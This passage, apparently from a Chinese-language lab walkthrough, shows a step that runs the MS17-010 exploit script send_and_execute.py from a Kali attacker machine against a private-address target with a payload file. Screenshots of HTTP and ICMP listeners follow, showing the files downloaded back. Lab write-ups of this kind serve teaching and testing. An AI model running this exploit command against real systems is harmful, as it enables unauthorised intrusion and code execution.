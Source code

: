 19.在 192.168.62.161 上执行(攻击者机器，Kali Linux)

在 Python2 虚拟环境'(impacket-venv)'中，使用我们的有效负载文件(/tmp/ruby.exe)对我们的目标(192.168.62.169)运行漏洞利用

```
python2 /tmp/MS17-010/send_and_execute.py 192.168.62.169 /tmp/ruby.exe
```

![](img/2fda36c003ce2d91d927b7aaa87a8140.png)

查看我们的结果:

HTTP 侦听器

![](img/3045c35b2f04f872f285a76b695b1e86.png)

所有文件都已下载。有些文件我们下载了不止一次，这是因为在 PowerShell 不可用的情况下的冗余。

ICPM 听众

![](img/0b74887e763a55293bad916e2c455e97.png)
